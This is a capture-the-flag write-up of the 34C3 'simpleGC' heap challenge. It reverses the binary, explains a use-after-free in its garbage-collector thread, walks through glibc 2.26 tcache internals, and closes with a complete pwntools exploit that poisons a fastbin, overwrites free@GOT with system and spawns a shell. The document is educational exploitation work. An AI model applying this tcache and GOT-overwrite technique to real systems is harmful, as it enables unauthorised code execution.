

**Points:** 107
**Solves:** 47
**Category:** Exploitation 

> [sgc](../binaries/sgc)

> [libc-2.26.so](../binaries/libc-2.26.so)


sgc: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f7ef90bc896e72ba0c3191a2ce6acb732bf3b172, stripped



gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro
`simpleGC` was a 107 point pwnable challenge in **343C3CTF**. I found it to be a very interesting challenge because it gave me my first exposure to the **tcache** thread local caching mechanism, which was introduced somewhat recently in glibc 2.26, the default libc version used in Ubuntu 17.10 (Artful Aardvark). I learned a lot about how the **tcache** works and how to exploit it while doing this challenge, so I decided to do a writeup for it. ([kileak](http://kileak.github.io) solved it during the competition)

## Reversing
The binary is a menu-driven program that allows us to create users and assign them to groups, which we can also create.

The main menu looks like the following:

0: Add a user
1: Display a group
2: Display a user
3: Edit a group
4: Delete a user
5: Exit
Action: 


A global array of user pointers, `user *userArr[96]`, and a global array of group pointers,`group *groupArr[96]`, are used to keep track of different users and groups, respectively. 

Reversing the relevant structures gives us the following definitions:

struct user{
    int age;
    char *userName;
    char *groupName;
};

struct group{
    char *groupName;
    int numMembers; //refcount
};


We can also display information about specific users or display information about each of the users associated with a given group.
Additionally, we can edit groups and delete users. 

When we edit a group, we must first specify a index into `userArr[]` to select a user whose `groupName` pointer we wish to modify.

**Additionally, we must specify if we want to either change the contents of `*groupName` directly by propagating the change, or if we wish to, instead, change the `groupName` pointer to make it point to a different `groupName` chunk, entirely.** 


unsigned __int64 editGroup()
{
  int idxInt; // [rsp+Ch] [rbp-54h]
  groupChunk *groupFound; // [rsp+10h] [rbp-50h]
  char input; // [rsp+20h] [rbp-40h]
  char newGroupName; // [rsp+30h] [rbp-30h]
  unsigned __int64 cookie; // [rsp+58h] [rbp-8h]

  cookie = __readfsqword(0x28u);
  printf("Enter index: ");
  readWrapper((__int64)&input, 4uLL);
  idxInt = atoi(&input);
  if ( userArr[idxInt] )
  {
    printf(
      "Would you like to propagate the change, this will update the group of all the users sharing this group(y/n): ",
      4LL);
    readWrapper((__int64)&input, 2uLL);
    printf("Enter new group name: ", 2LL);
    if ( input == 'y' )
    {
      readWrapper(userArr[idxInt]->pGroupName, 0x18uLL);// overwrite original *(group->groupName)
    }
    else
    {
      readWrapper((__int64)&newGroupName, 0x18uLL);
      groupFound = findGroup(&newGroupName);
      if ( groupFound )
        userArr[idxInt]->pGroupName = groupFound->pGroupName;// doesn't subtract original group->numMembers!
      else
        userArr[idxInt]->pGroupName = addGroup((__int64)&newGroupName)->pGroupName;
    }
  }
  return __readfsqword(0x28u) ^ cookie;
}


Let's take a look at deleting users now.

**Deleting a user will decrement the `numMembers` value, essentially a refcount, in all groups that share the same `groupName` that the user is associated with. Keep this in mind because this will come up later!** 


unsigned __int64 deleteUser()
{
  unsigned int idxInt; // [rsp+Ch] [rbp-14h]
  char idx; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Enter index: ");
  readWrapper((__int64)&idx, 4uLL);
  idxInt = atoi(&idx);
  if ( idxInt <= 0x5F )
  {
    if ( userArr[idxInt] )
    {
      removeFromGroup((const char *)userArr[idxInt]->pGroupName);// decrements refcount of ALL groups that share the same groupName
      free(userArr[idxInt]);
      userArr[idxInt] = 0LL;
    }
  }
  else
  {
    puts("invalid index");
  }
  return __readfsqword(0x28u) ^ v3;
}


**Very important to note, is that at the begnning of the `main()` function, a new thread is created that runs the `watchGroup()` function, which is basically a garbage collector that frees `groupNames` and the `group` that they're tied to, if the latter has had its refcount decremented to `0`.**

pthread_create(&newthread, 0LL, (void *(*)(void *))watchGroups, 0LL);



void __fastcall __noreturn watchGroups(void *a1)
{
  unsigned int idx; // [rsp+18h] [rbp-8h]

  sleep(1u);
  while ( 1 )
  {
    for ( idx = 0; idx <= 0x5F; ++idx )
    {
      if ( groupArr[idx] )
      {
        if ( !LOBYTE(groupArr[idx]->numMembers) )
        {
          free((void *)groupArr[idx]->pGroupName);
          free(groupArr[idx]);
          groupArr[idx] = 0LL;
        }
      }
    }
    sleep(0);
  }
}


As we can see, the least significant byte of the `group->numMembers` value is checked to see if it is `0`, and if it is, both the `groupName` and `group` will be freed.

## Vulnerabilities
There are several vulnerabilities in the program.

First, whenever thread 2, hereinafter `t2`, checks to see if any groups have a refcount of `0`, **it only checks the LSB. This means if we have added `0x100` users to a `group`, `t2` will think that the `group` has no users associated with it, and free it as well as its associated `groupName` chunk! Meanwhile, all `0x100` users will still be allocated and contain a reference to the now freed `groupName` chunk, creating a dangling pointer situation.** 

Similarly, when a `user`'s `groupName` is edited, if we choose to propogate the change, the program doesn't check to see that the new `groupName` already exists. This means we can create 2 different `group`s that share the same string in their `groupName` chunks. **This is problematic because when we delete a user and remove it from its group, ALL the `group`s in `groupArr[]` are iterated through, and if ANY of them share the same contents in their `groupName` chunk, they will have their refcount decremented. This means if user A and user B are associated with different `group`s, but both `group`s  have the same name, when we delete user A, user B's `group`'s refcount will be decremented. And if it is decremented to `0`, `t2` will free user B's `group` and `groupName` even though user B is still allocated and still contians a reference to `groupName`. This also creates a dangling pointer situation!** 


void __fastcall removeFromGroup(const char *pGroupName)
{
  unsigned __int16 idx; // [rsp+1Eh] [rbp-2h]

  for ( idx = 0; idx <= 0x5Fu; ++idx )
  {
    if ( groupArr[idx] && !strcmp(pGroupName, (const char *)groupArr[idx]->pGroupName) )
    {
      if ( LOBYTE(groupArr[idx]->numMembers) )
        --LOBYTE(groupArr[idx]->numMembers);
    }
  }
}


Visually this **dangling pointer** situation looks something like this (green is allocated, blue is freed):
 

As we can see in the diagram, `user A` and `user B` are tied to different groups, `group A` and `group B`, but since both groups share the same name, `group A` and `groupName A` will be freed even if only `user B` is deleted.  

Another vuln I found is that when you edit a `user`'s `groupName`, if we change it to be associated with a different `group`, we don't decrement the original `group`'s refcount. For the purposes of this writeup, we can ignore this one. The vuln we will be exploiting will be the 2nd dangling pointer situation we just mentioned.

So now that we know the vulns, how can we exploit this binary?

As it turns out, we can use the 2nd dangling pointer condition to control the contents of free chunks in order to abuse the `tcache` caching mechanism.

Before we do this though, let's first talk about this amazing new feature, `tcache`, and try to understand it a little better.

## Tcache 101
The `tcache` is a structure that is initialized by `malloc()`ing a chunk, which means it is one of the first structures that exists on the heap.


2998 static void
2999 tcache_init(void)
3000 {
3002   void *victim = 0;
//[...]
3010   if (!victim && ar_ptr != NULL)
3011     {
3012       ar_ptr = arena_get_retry (ar_ptr, bytes);
3013       victim = _int_malloc (ar_ptr, bytes);
3014     }
//[...]
3025   if (victim)
3026     {
3027       tcache = (tcache_perthread_struct *) victim; //tcache = malloc()'d chunk
3028       memset (tcache, 0, sizeof (tcache_perthread_struct));
3029     }
3030 
3031 }


As we can see in the above snippet, `tcache` is a `tcache_per_thread_struct *`-typcasted pointer.
And what is this new `tcache_per_thread_struct` structure, you ask?


2932 /* There is one of these for each thread, which contains the
2933    per-thread cache (hence "tcache_perthread_struct").  Keeping
2934    overall size low is mildly important.  Note that COUNTS and ENTRIES
2935    are redundant (we could have just counted the linked list each
2936    time), this is for performance reasons.  */
2937 typedef struct tcache_perthread_struct
2938 {
2939   char counts[TCACHE_MAX_BINS];		   // TCACHE_MAX_BINS = 64
2940   tcache_entry *entries[TCACHE_MAX_BINS]; 
2941 } tcache_perthread_struct;



2925 /* We overlay this structure on the user-data portion of a chunk when
2926    the chunk is stored in the per-thread cache.  */
2927 typedef struct tcache_entry
2928 {
2929   struct tcache_entry *next;
2930 } tcache_entry;


In reading the above snippet, we can see that the `tcache_perthread_struct` structure is just an array of 64 bins, called `entries`, and an array of 64 `counts`, which basically track the number of chunks there are per bin. 

Each bin contains a **singly-linked list** of `tcache_entry` objects, each of which, start with a `FD` pointer to the next `tcache_entry` in the bin.

**Each thread has its own `tcache`!** 

This means that for our binary, since we have 2 threads running, we have **2 `tcache`'s**, and whenever the garbage collection function running in `t2` frees a `groupName` chunk and its associated `group` chunk, **they will both end up in `t2`'s `tcache`**. Similarly, whenever a `user` chunk is freed in `t1`, **the chunk will end up in `t1`'s `tcache`, NOT `t2`'s `tcache`**. 

We can examine each of the `tcache`s in GDB like so: 

### THREAD 1'S TCACHE @ 0x603010:
gdb-peda$ p *(struct tcache_perthread_struct *)tcache
$62 = {
  counts = "\001", '\000' <repeats 62 times>, 
  entries = {0x603440, 0x0 <repeats 63 times>}
}
gdb-peda$ info threads
  Id   Target Id         Frame 
* 1    Thread 0x7ffff7fe3740 (LWP 2712) "sgc" 0x00007ffff78d9ffd in __GI___libc_read (fd=0x0, buf=0x7ffff7bb0a63 <_IO_2_1_stdin_+131>, 
    nbytes=0x1) at ../sysdeps/unix/sysv/linux/read.c:26
  2    Thread 0x7ffff77d5700 (LWP 2713) "sgc" 0x00007ffff78aeb98 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffff77d4ea0, 
    remaining=remaining@entry=0x7ffff77d4ea0) at ../sysdeps/unix/sysv/linux/nanosleep.c:27

###THREAD 2'S TCACHE @ 0x7ffff00008c0:
gdb-peda$ thread 2 
[Switching to thread 2 (Thread 0x7ffff77d5700 (LWP 2713))]
#0  0x00007ffff78aeb98 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffff77d4ea0, remaining=remaining@entry=0x7ffff77d4ea0)
    at ../sysdeps/unix/sysv/linux/nanosleep.c:27
27      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
gdb-peda$ p *(struct tcache_perthread_struct *)tcache
$63 = {
  counts = "\004", '\000' <repeats 62 times>, 
  entries = {0x603420, 0x0 <repeats 63 times>}
}


In the above example, we can see there are 4 chunks in `tcache_t2` and 1 chunk in `tcache_t1`. So, how did they get there in the first place?

**Starting in glibc 2.26, when a chunk is freed, the first thing the memory allocator does now, is instead of attempting to first place the chunk in a fastbin, it now first attempts to place the chunk in the current thread's `tcache`.**


4173 #if USE_TCACHE
4174   {
4175     size_t tc_idx = csize2tidx (size);
4176 
4177     if (tcache
4178         && tc_idx < mp_.tcache_bins
4179         && tcache->counts[tc_idx] < mp_.tcache_count) // .tcache_count = 7
4180       {
4181         tcache_put (p, tc_idx);
4182         return;
4183       }
4184   }
4185 #endif
4186 
4187   /*
4188     If eligible, place chunk on a fastbin so it can be found
4189     and used quickly in malloc.
4190   */
4191 
4192   if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())

/* rest of fastbin code */


As we can see, the memory allocator will check to make sure that the size of `p`, which is the chunk that is being freed, matches one of the `tcache_bins`. 
`tcache_bins` can store chunksizes from 24 to 1032 bytes on x64. The memory allocator will also check to make sure that the bin in which `p` will be placed, isn't full.

**Each `tcache_bin` can only hold 7 chunks!**

If both of these conditions pass and the `tcache` exists, **`p` will be placed in the appropriate `tcache_bin`.**
If, however, one of these conditions is not met, **then `_int_free()` continues as it would pre-2.26 and next attempts to place `p` in one of the fastbins. And if that fails, then it checks to see if `p` is not mmapped and so on and so forth.**

**This means if one of our fastbin-sized `tcache` bins is full (has 7 chunks in it), the next time we attempt to put `p` in it, `p` will instead be placed in `main_arena.fastbinsY`!** **This statement holds true, even for chunks that are freed in `t2`!**

**Yes! You heard that right. If a chunk is freed in `t2` and the memory allocator attempts to place it in `tcache_t2`, but the corresponding `tcache_bin` is full, the chunk will instead be attempted to be placed in `main_arena` which is in `t1`!** 

Strange, I know.

Well, now that we have a basic understanding of how `tcache` works, let's go back to the challenge and try to exploit it to give ourselves a shell.

## Fastbin and Tcache Attack
So, going back to where we left off before we went on a tangent to discuss the `tcache`, thanks to our aforementioned **dangling-pointer** vulnerability, we can write into free'd `groupName` chunks to control the `FD` pointer, as we would in a typical fastbin attack. 

But since chunks are only freed in `t2`, but never allocated, this won't be very useful to us. Or will it?

Remember when we said when a thread's `tcache_bin` is filled up and we try to add another chunk to it, that it will instead use the `main_arena` for storage? Well, we can abuse this fact to still perform a fastbin attack!

First, we will allocate and free enough chunks to fill up `t2`'s `tcache_bin[0]` and start placing chunks that we can later reallocate into `t1`'s `main_arena.fastbinsY`. 


for i in range(9):
	addUser("A", "B"*i, 0)

editGroup(7,"y","B"*8) # creates 2 different groups w/same name

for i in range(8): # free users 1-7 + associate user 8 w/ a free'd group
	deleteUser(i) # free 2 heap chunks in t2 at a time

sleep(1) # give t2 time to free last group


**Notice that we also edit `userArr[7]`'s groupname so that it shares the same name as `userArr[8]`.   
This is so that when we delete `userArr[7]`, both `userArr[7]`'s `groupName`+`group` AND `userArr[8]`'s `groupName`+`group` are freed.**

Since we've freed so many group chunks in `t2`, we can now control the contents of a free'd group fastchunk that has been placed in `t1`'s `main_arena.fastbinsY`.

Before we modify the contents of this freed fastchunk though, let's first leak a heap printer by printing out `userArr[8]->groupName`, which, as the **FD** ptr, now points to the next chunk in the fastbin.


# userArr[8]:
gdb-peda$ x/6xg 0x00000000006037b0
0x6037b0:       0x0000000000000000      0x0000000000000021 
0x6037c0:       0x0000000000000000      0x00000000006037e0
0x6037d0:       0x0000000000603780      0x0000000000000021 <-- userArr[8]->groupName

# userArr[8]->groupName:
gdb-peda$ x/8xg 0x0000000000603770
0x603770:       0x0000000000000000      0x0000000000000021
0x603780:       0x0000000000603710      0x0000000000000000 <-- FD = 0x603710
0x603790:       0x0000000000000000      0x0000000000000021
0x6037a0:       0x0000000000603770      0x0000000000000000

# fastbin pre-corruption
gdb-peda$ printfastbin
(0x20)     fastbin[0]: 0x603790 --> 0x603770 --> 0x603710 --> 0x6036f0 [...]


After we get our heap leak, we can now corrupt the **FD** ptr and overwrite it with `&userArr-0x10`.

Our `fastbin[0]` now looks like this:

# fastbin post-corruption:
gdb-peda$ printfastbin
(0x20)     fastbin[0]: 0x603790 --> 0x603770 --> 0x6020d0 (size error (0x0)) --> 0x0


And `tcache`(thread 1) like this:

gdb-peda$ p *(struct tcache_perthread_struct *)tcache
$1 = {
  counts = "\a", '\000' <repeats 62 times>, 
  entries = {0x6036c0, 0x0 <repeats 63 times>}
}
gdb-peda$ find 0x6036c0 all
Searching for '0x6036c0' in: all ranges
Found 1 results, display max 1 items:
[heap] : 0x603050 --> 0x6036c0 --> 0x603640 --> 0x6035c0 --> 0x603540 --> 0x6034c0 --> 0x603440 --> 0x6033c0 --> 0x0 


Notice how now the fastchunk `0x6020d0` has an invalid fastchunk size of `0x0`. Normally in a fastbin attack this would be problematic because it wouldn't pass the size check when we allocate this fast chunk out, but as we will see, this won't matter to us, since near the beginning of `_int_malloc()`, ***no size checks will be performed before `fastbin[0]` is actually copied over to the `tcache_bin`, where there is also no size check performed before allocating `tcache` chunks out!***


3585 #if USE_TCACHE
3586           /* While we're here, if we see other chunks of the same size,
3587              stash them in the tcache.  */
3588           size_t tc_idx = csize2tidx (nb);
3589           if (tcache && tc_idx < mp_.tcache_bins)
3590             {
3591               mchunkptr tc_victim;
3592 
3593               /* While bin not empty and tcache not full, copy chunks over.  */
3594               while (tcache->counts[tc_idx] < mp_.tcache_count
3595                      && (pp = *fb) != NULL)
3596                 {
3597                   REMOVE_FB (fb, tc_victim, pp);
3598                   if (tc_victim != 0)
3599                     {
3600                       tcache_put (tc_victim, tc_idx);
3601                     }
3602                 }
3603             }
3604 #endif


In order to reach this code to copy the freed fastchunks over to the `tcache_bin`, we need to empty `tcache_bin[0]` by allocating all the `tcache` chunks out, and then allocate 1 more chunk out of `fastbin[0]`. 

To do this, we can allocate 6 chunks out of the `tcache_bin` by editing `userArr[8]`'s group 3 times, since each time we edit a group and give it a new name, **2 heap chunks are allocated.**
After this, our `fastbin` and `tcache_bin` will look like this:

# fastbin:
fastbin[0]: 0x603790 --> 0x603770 --> 0x6020d0 (size error (0x0)) --> 0x0

# tcachebin:
[heap] : 0x603050 --> 0x6033c0 --> 0x0


***Now, if we edit `userArr[8]`'s group one more time, the following actions will be performed:*** 

1. ***we will allocate `0x6033c0` out of the `tcache_bin`***
1. ***the memory allocater will attempt to allocate another chunk out of the `tcache_bin`, but upon seeing no more `tcache` chunks available for the next allocation will instead allocate `0x603790` out of `fastbin[0]`***
1. ***move/push the rest of `fastbin[0]` into the `tcache_bin` starting with `0x6020e0`***
 
This will result in our `fastbin` and `tcache_bin` looking like this:

# fastbin:
fastbin[0]: 0x0

# tcachebin:
[heap] : 0x603050 --> 0x6020e0 --> 0x603780 --> 0x0 


As we can see, `userArr` now sits at the head of our `tcache_bin`, giving us the ability to write into it upon the next memory allocation!

Now we can craft the following fake `groupName` chunk upon the next memory allocation, that sits on top of the `userArr[]` array:

gdb-peda$ x/10xg $userArr
0x6020e0:       0x0068732f6e69622f      0x00000000006020e0 <-- "/bin/sh\0" ; userArr[]
0x6020f0:       0x0000000000602018      0x0000000000000000 <-- free@GOT 
0x602100:       0x0000000000000000      0x0000000000000000
0x602110:       0x0000000000000000      0x0000000000000000
0x602120:       0x00000000006037c0      0x0000000000000000


This allows us to leak a libc pointer by printing `userArr[1]->groupName` which is actually a pointer to `free@GOT`. 
It also conveniently allows us to overwrite `free@GOT` by editing `userArr[1]`'s group!

So from here we can simply overwrite `free@GOT` with `system@libc` and delete user 1 to call `system("/bin/sh");`, granting us a shell!

Putting everything together, we can get the flag using the following exploit. 

## Exploit

#!/usr/bin/env python

'''
1.  allocate enough users/groups to fill tcache bin and start using fastbin
2.  create 2 different groups w/same name by editing a user's group and propogating change
3.  fill tcache bins and put chunks in fastbin by deleting users
3.1 delete user in one of groups in step 2. to create UAF scenario
4.  leak heap using UAF from step 3.1
5.  overwrite fastchunk FD ptr using UAF from step 3.1 and point it to userArr-0x10
6.  perform 4 rds of 2x chunk allocations to empty tcache bin + move fastbin into tcache bin
7.  overwrite userArr with forged groupName chunk
8.  leak libc by printing user 1's groupName
9.  overwrite free@GOT w/system by editing user 1's groupName
10. delete user 1
'''

from pwn import *
import sys  

def addUser(name, group, age):
    r.sendlineafter("Action:", "0")
    r.sendlineafter("name:", name)
    r.sendlineafter("group:", group)
    r.sendlineafter("age:", str(age))

def displayGroup(groupName):
    r.sendlineafter("Action:", "1")
    r.sendlineafter("name:", groupName)

def displayUser(idx):
    r.sendlineafter("Action:", "2")
    r.sendlineafter("index:", str(idx))
    return r.recvuntil("0:")

def editGroup(idx, propogate, groupName):
    r.sendlineafter("Action:", "3")
    r.sendlineafter("index:", str(idx))
    r.sendlineafter("(y/n):", propogate)
    r.sendlineafter("name:", groupName)

def deleteUser(idx):
    r.sendlineafter("Action:", "4")
    r.sendlineafter("index:", str(idx))

def exploit(r):
    userArr = 0x6020e0
    free_got = 0x602018
    
    for i in range(9):
        addUser("A", "B"*i, 0)
    
    # associate users 7 + 8 w/ 2 different groups that have same groupName
    editGroup(7,"y","B"*8)

    # create UAF scenario
    # fill t2's tcache_bin 
    # start placing groupName chunks in main_arena.fastbinsY
    for i in range(8): 
        deleteUser(i) 
    
    sleep(1) # give t2 time to free last group before proceeding
 
    heap_base = u32(displayUser(8)[24:27].ljust(4,'\0'))-0x710    
    log.success("heap_base at: "+hex(heap_base))

    editGroup(8,"y",p64(userArr-0x10)) # fastbin attack target
   
    # alloc 8 chunks
    # place userArr @  head of tcache_bin
    editGroup(8,"n","round1")
    editGroup(8,"n","round2") 
    editGroup(8,"n","round3")
    editGroup(8,"n","round4") # alloc 1 chunk out of tcache, 1 chunk out of fastbin, copy rest of fastbin into tcache

    # fake groupName
    payload  = "/bin/sh\0"
    payload += p64(userArr)
    payload += p64(free_got)
    editGroup(8,"n",payload) 
    
    libc_base = u64(displayUser(1)[30:36].ljust(8,'\0'))-0x8f390 
    system = libc_base+0x47dc0
    log.success("libc_base at: "+hex(libc_base))
    log.success("system@libc at: "+hex(system))
 
    editGroup(1,"y",p64(system)) # overwrite free@got w/system
   
    deleteUser(1) 
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/34c3ctf/SimpleGC/sgc'], env={"LD_PRELOAD":"./libc-2.26.so"})
        #r = process(['/home/vagrant/CTFs/34c3ctf/SimpleGC/sgc'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)


## Sources
While I was doing this challenge, I relied heavily on reading the [glibc 2.26 source](https://ftp.gnu.org/pub/gnu/glibc/glibc-2.26.tar.gz) as well as [this article](http://tukan.farm/2017/07/08/tcache/) by [_2can](https://twitter.com/kapteinemalje).
I found the latter to be an excellent summary of the new features and changes to `malloc.c` that **tcache** brings, and I highly recommend reading it if for anyone interested in learning more about this new caching mechanism. 
